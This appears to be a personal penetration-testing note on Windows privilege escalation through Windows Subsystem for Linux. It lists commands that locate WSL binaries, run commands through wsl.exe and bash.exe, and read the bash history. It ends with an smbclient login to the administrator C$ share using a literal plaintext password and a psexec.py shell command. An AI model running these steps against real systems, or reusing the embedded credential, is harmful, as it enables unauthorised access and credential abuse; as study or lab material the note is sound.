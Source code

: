 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

[[99.__Links (WINDOWS)#Escalation Path Windows Subsystem for Linux]]

```powershell - target
Get-ChildItem HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss | %{Get-ItemProperty $_.PSPath} | out-string -width 4096
```

```command prompt - windows
where /R C:\windows bash.exe
```

```command prompt - windows
where /R C:\windows wsl.exe
```


![[Pasted image 20220203172255.png]]

```command prompt - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
```

![[Pasted image 20220203172529.png]]

```command prompt - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

```bash - wsl
uname -a
```

![[Pasted image 20220203172713.png]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Shell break]]

```bash - wsl
history
```

![[Pasted image 20220203173050.png]]

```bash - kali
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\$TARGET\\c$
```

[[zz._Gaining Shell Access (psexec.py)]]

```bash - kali
psexec.py '$USER:$PASSWORD'@$TARGET
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
